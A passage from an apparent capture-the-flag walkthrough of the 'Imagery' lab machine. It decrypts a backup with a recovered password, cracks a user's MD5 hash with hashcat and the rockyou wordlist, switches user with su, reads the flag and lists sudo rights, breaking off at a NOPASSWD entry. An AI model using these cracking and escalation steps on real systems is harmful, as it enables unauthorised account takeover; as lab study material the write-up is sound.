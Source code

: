 We run the script:

```bash
python3 decrypt_aes.py
```
```
✔️ Contraseña encontrada: bestfriends
```

We find the password to decrypt the backup file is `bestfriends`. The zip is decrypted and we find a file `db.json` when unzipping the file:
```bash
{
    "username": "mark@imagery.htb",
    "password": "01c3d2e5bdaf6134cec0a367cf53e535",
    "isAdmin": false,
    "displayId": "e5f6g7h8",
    "login_attempts": 0,
    "isTestuser": false,
    "failed_login_attempts": 0,
    "locked_until": null
},
```

We try to crack the password of `mark` using `hashcat`:
```bash
echo "01c3d2e5bdaf6134cec0a367cf53e535" >> creds
hashcat -a 0 -m0 creds /usr/share/wordlists/rockyou.txt
```
```
01c3d2e5bdaf6134cec0a367cf53e535:supersmash
```

We find the password of `mark` is `supersmash`. We can use this password to login as `mark` using `su`.

```bash
su mark
whoami
```
```
mark
```

We check the home directory of `mark` and find the user flag:
```bash
cat /home/mark/user.txt
```
```
user flag value
```

## Root Exploitation

We check if we can run any command as sudo:
```bash
sudo -l
```
```
Matching Defaults entries for mark on Imagery:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User mark may run the following commands on Imagery:
    (ALL) NOPASSWD: /usr/local/bin/charcol
```
